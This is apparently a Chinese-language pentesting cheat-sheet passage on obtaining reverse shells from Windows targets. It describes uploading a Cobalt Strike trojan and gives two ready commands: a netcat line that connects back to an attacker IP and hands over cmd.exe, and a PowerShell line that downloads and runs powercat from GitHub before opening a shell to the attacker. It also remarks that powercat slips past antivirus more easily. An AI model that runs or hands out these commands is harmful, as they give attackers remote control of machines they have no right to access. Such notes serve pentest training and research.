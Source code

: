 ### Windows反弹shell

**cs生成木马**

- （可以直接生成powershell木马，远程执行上线，或者生成powershell命令上线cs）上传到靶机执行反弹shell
- ![image-20220810163526855](漏洞探测和利用.assets/image-20220810163526855.png)
    - ![image-20220810163546188](漏洞探测和利用.assets/image-20220810163546188.png)

**nc反弹**

- 
    靶机需安装netcat工具


- 靶机：`nc [攻击机ip] [port] -e c:\windows\system32\cmd.exe`

**powershell反弹**

- https://www.cnblogs.com/-mo-/p/11487997.html

- powercat是netcat的powershell版本，powershell在Windows操作系统下，拥有的权限较高，功能免杀性（渗透中往往因为杀毒软件而渗透失败）都要比netcat好用的多。

	```powershell
  powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c [攻击机ip] -p [port] -e cmd
  